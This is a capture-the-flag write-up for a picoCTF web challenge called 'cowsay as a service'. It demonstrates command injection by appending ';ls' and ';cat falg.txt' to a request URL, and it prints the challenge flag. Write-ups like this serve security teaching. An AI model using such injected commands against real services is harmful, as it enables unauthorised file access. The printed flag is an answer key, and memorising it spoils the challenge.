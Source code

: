 ## Details
- Category: Web Exploitation
- Points: 150

## Description
```
Now presenting cowsay as a service
```
The link - [cowsay as a service](https://caas.mars.picoctf.net/)
## Hint
```
(None)
```
## Solution
When we click the link sent to us we are sent to a page with this text:
```
Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```
When we make the request with a certain message, like "hello" - https://caas.mars.picoctf.net/cowsay/{hello}, we get this:
```
 _________
< {hello} >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
For context: cowsay is more or less a joke within hacker culture, it is essentially a service within linux (caas - Cow as a Service).

That means we are in a linux machine, let's try to bypass this service and look through the files in the system:

Let's try the ls command to list all files in the directory - https://caas.mars.picoctf.net/cowsay/{hello};ls

and sure enough we get a list of all the files in this directory:
```
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

Now let's print out the contents of the falg.txt - https://caas.mars.picoctf.net/cowsay/{hello};cat falg.txt

and we get the **flag: picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**

